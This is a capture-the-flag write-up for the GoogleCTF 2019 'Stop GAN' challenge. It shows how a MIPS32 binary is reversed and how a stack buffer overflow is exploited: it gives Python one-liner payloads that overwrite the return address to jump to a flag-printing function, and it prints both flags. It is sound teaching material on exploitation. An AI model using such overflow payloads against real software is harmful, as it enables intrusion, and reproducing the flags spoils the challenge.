

GoogleCTF Beginner's Quest 2019 - Stop GAN
Description
Success, you’ve gotten the picture of your lost love, not knowing that pictures and the things you take pictures of are generally two separate things, you think you’ve rescue them and their brethren by downloading them all to your ships hard drive. They’re still being eaten, but this is a fact that has escaped you entirely. Your thoughts swiftly shift to revenge. It’s important now to stop this program from destroying these “Cauliflowers” as they’re referred to, ever again.
buffer-overflow.ctfcompetition.com 1337
Solving
ll
Permissions Size User Group Date Modified Name
.rw-r--r-- 678k kylma users 6 Aug 16:25 4a8becb637ed2b45e247d482ea9df123eb01115fc33583c2fa0e4a69b760af4a.zip .rw-r--r-- 1.1k kylma users 31 Dec 1979 console.c
.rwxr-xr-x 677k kylma users 31 Dec 1979 bof
We’ve got two files, hopefully, the source code and the binary.
$ chmod +x bof
$ ./bof
zsh: exec format error: ./bof
Uh?! I smell troubles!
file bof
bof: ELF 32-bit LSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=a31c48679f10dc6945e7b5e3a88b979bebe752e3, not stripped
Troubles indeed! It’s a MIPS32 binary, it won’t run on my machine…
console
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
/**
* 6e: bufferflow triggering segfault - binary, compile with:
* gcc /tmp/console.c -o /tmp/console -static -s
*
* Console allows the player to get info on the binary.
* Crashing bof will trigger the 1st flag.
* Controlling the buffer overflow in bof will trigger the 2nd flag.
*/
int main() {
setbuf(stdin, NULL);
setbuf(stdout, NULL);
setbuf(stderr, NULL);
char inputs[256];
printf("Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.\n Bonus flag for controlling the crash.\n");
while(1) {
printf("\nConsole commands: \nrun\nquit\n>>");
if (fgets(inputs, 256, stdin) == NULL) {
exit(0);
}
printf("Inputs: %s", inputs);
if ( strncmp(inputs, "run\n\0", 256) == 0 ) {
int result = system("/usr/bin/qemu-mipsel-static ./bof");
continue;
} else if ( strncmp(inputs, "quit\n\0", 256) == 0 ) {
exit(0);
} else {
puts("Unable to determine action from your input");
exit(0);
}
}
return 0;
}
console is just a wrapper which greets when connecting on buffer-overflow.ctfcompetition.com 1337 :
$ nc buffer-overflow.ctfcompetition.com 1337
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
Bonus flag for controlling the crash.
Console commands:
run
quit
>>run
Inputs: run
myfancyinput
Cauliflower systems never crash >>
Console commands:
run
quit
>>quit
Inputs: quit
What did we learn so far:
- the
runcommand forwards the input to bof 6e: bufferflow triggering segfault–> it’s definitely a buffer overflow attack- uhuh, two flags eh? An easy one for crashing and a second one for doing something useful with that crash.
bof
Since we can’t run it, let’s open it in IDA!
Lots of functions are identified and automatically named, which is a good thing! The main() function is the main logic of the program:
- It prints
Cauliflower systems never crash >>using theputs()function. - It uses
scanf()to retrieve the user input.
Two functions in main are really interesting for us:
write_out(): detect a segfault and prints the first flag (flag0).
local_file(): open a file and print its content, ie the second flag (flag1).
Flag 0
The first flag requires absolutely no reverse, since we know it’s a buffer overflow, we can just try giant strings and see if it crashes:
Test:
$ nc buffer-overflow.ctfcompetition.com 1337
$ python -c "print('run\n' + 'A' * 1024)" | nc buffer-overflow.ctfcompetition.com 1337
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
Bonus flag for controlling the crash.
Console commands:
run
quit
>>run
Inputs: run
CTF{Why_does_cauliflower_threaten_us}
Cauliflower systems never crash >>
segfault detected! ***CRASH***
Console commands:
run
quit
Flag: CTF{Why_does_cauliflower_threaten_us}
MIPS32
At this point, I went to read a bit on the mips 32 instruction set to understand what I’m reversing. This article on Digging Through the Firmware was so useful (go read the whole serie, it’s awesome!), not only is it super well explained, it has a few cool resources on MIPS reversing.
- https://www.linux-mips.org/wiki/Main_Page
- https://www.praetorian.com/blog/reversing-and-exploiting-embedded-devices-part-1-the-software-stack
- https://github.com/MIPT-ILab/mipt-mips/wiki/MIPS-Instruction-Set
- https://github.com/MIPT-ILab/mipt-mips/wiki/MIPS-registers
Pseudo-instructions
Some instructions are actually just aliases, they end up being expanded to other instructions by the assembler.
For example, the instruction for “branch and link”, bal is actually expanded to bgezal $zero, . See MIPS pseudo instructions for a complete list.
Delay Slots
A very disturbing concept if you come from x86! The instruction immediately after a branching instructions (bal, jalr and their friends) is executed before branching.
This is also the reason of that very weird pattern:
bal __isoc99_scanf
nop
A nop is placed after the branching execution because of the delay slot.
Registers
The Wiki on MIPS registers describes the main registers used by MIPS. Here is a summary:
| Register Name | Usage |
|---|---|
| $zero | Holds the constant 0 |
| $at | assembler temporary, used when pseudo-instructions are expanded |
| $v0, $v1 | function return values |
| $a0 -> $a1 | function args |
| $t0 -> $t9 | temp registers |
| $gp | global pointer, area where global vars are stored |
| $sp | stack pointer |
| $ra | return address, updated by “jump and link” commands like jal, jalr |
| $fp or s8 | frame pointer |
| badvaddr | memory address at which exceptions occurs |
Instructions
A couple of must-know instructions:
| Instruction | Description |
|---|---|
| bal | branch and link, call a function and update $ra |
| sw | store word |
| lw | load word |
| addiu | add unsigned integer |
Flag 1
Back at our crash after finding flag 0, why does it crashes?
write_out, the function printing flag 0, is defined as a handler for SIGSEGV. This is done through the function ssignal:
sighandler_t ssignal(int signum, sighandler_t action);
The function ssignal() defines the action to take when the software signal with number signum is raised using the function gsignal(), and returns the previous such action or SIG_DFL.
– relevant part of man ssignal
The numeric value of the signal, here 11, can be translated with the section “Signal numbering for standard signals” in man 7 signal. Relevant extract below:
Signal x86/ARM Alpha/ MIPS PARISC Notes most others SPARC SIGBUS 7 10 10 10 SIGEMT - 7 7 - SIGFPE 8 8 8 8 SIGKILL 9 9 9 9 SIGUSR1 10 30 16 16 SIGSEGV 11 11 11 11 SIGUSR2 12 31 17 17 SIGPIPE 13 13 13 13 SIGALRM 14 14 14 14
Then, scanf() is called to retrieve the user input. Using scanf() is a terrible idea, it will not check that it has enough place to store the input and just stuff it, no matter the size. If you have a buffer of length 10, scanf() can and will happily store 20 characters without thinking twice, and cause a buffer overflow.
Double-click on var_10C to display the stack variables:

var_10C can be renamed user_input and displayed as an array of 260 bytes using right click > array.
A few tests made with python -c "print('run\n' + 'A' * 260)" | nc buffer-overflow.ctfcompetition.com 1337
- input < 264: no crash
- input = 264: no crash, hangs
- input = 265:
qemu: uncaught target signal 4 (Illegal instruction) - core dumped Illegal instruction (core dumped) - input >= 266: crash with the flag
The binary crashes if we overwrite the return address, ie 260+4 bytes. And to control the flow of execution, the return address can be overwritten with the address of a function we want to execute like local_flag().
Get the address of local_flag():
$ nm bof | grep local_flag
00400840 t local_flag
Okay, let’s assemble our “exploit” now: 264 characters of garbage and the address of local_flag (backwards because of the endianness):
$ python -c "print('run\n' + 'A' * 264 + '\x40\x08\x40\x00')" | nc buffer-overflow.ctfcompetition.com 1337
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
Bonus flag for controlling the crash.
Console commands:
run
quit
>>Inputs: run
CTF{Why_does_cauliflower_threaten_us}
Cauliflower systems never crash >>
segfault detected! ***CRASH***
Console commands:
run
quit
Huh. It’s now working at all. It should trigger another flag, but instead, it’s triggering only the flag we already had… Riiiight, let’s get the debugger out to understand what’s going on! The payload used is 260 As, 4 Bs and 4 Cs.
# gdb -q bof
Reading symbols from /root/bof...(no debugging symbols found)...done.
(gdb) r
Starting program: /root/bof
Failed to read a valid object file image from memory.
Cauliflower systems never crash >>
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC
Program received signal SIGSEGV, Segmentation fault.
0x43434342 in ?? ()
(gdb) info r
zero at v0 v1 a0 a1 a2 a3
R0 00000000 00000001 00000000 00000000 004a19c8 00000081 004754f5 00000000
t0 t1 t2 t3 t4 t5 t6 t7
R8 00000000 0000000a 41414141 41414141 0002c800 0000043b 00000000 0004151d
s0 s1 s2 s3 s4 s5 s6 s7
R16 00401160 004d2524 004cc4a7 004b0000 004d254c 77fdc5b8 004d2504 00000000
t8 t9 k0 k1 gp sp s8 ra
R24 00000001 00417818 fbad2a84 00000000 004a8970 7fe4c580 42424242 43434343
status lo hi badvaddr cause pc
0000a713 0002c800 00000000 43434342 10800008 43434343
fcsr fir restart
00000000 00739300 00000000
Nothing unusual here, it’s doing what it supposed to do… I have no idea why it’s not working.
I eventually managed to get the second flag by trial-and-error, I ended up constructing a payload which jump after a few instructions of local_flag()ie at address: 0x0040084C instead of 0x00400840:
I still have no idea why these two instructions doing stuff with the global pointer were preventing me from getting the flag but well… it works…

Don’t mess with the global pointer, that’s all I know :p
$ python -c "print('run\n' + 'A' * 264 + '\x4C\x08\x40\x00')" | nc buffer-overflow.ctfcompetition.com 1337
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
Bonus flag for controlling the crash.
Console commands:
run
quit
>>Inputs: run
CTF{controlled_crash_causes_conditional_correspondence}
Cauliflower systems never crash >>
Console commands:
run
quit
>>%
Flag: CTF{controlled_crash_causes_conditional_correspondence}
Links
https://jcjc-dev.com/2016/12/14/reversing-huawei-5-reversing-firmware/
https://werewblog.wordpress.com/2015/11/23/a-simple-buffer-overflow-exploit-mips-architecture/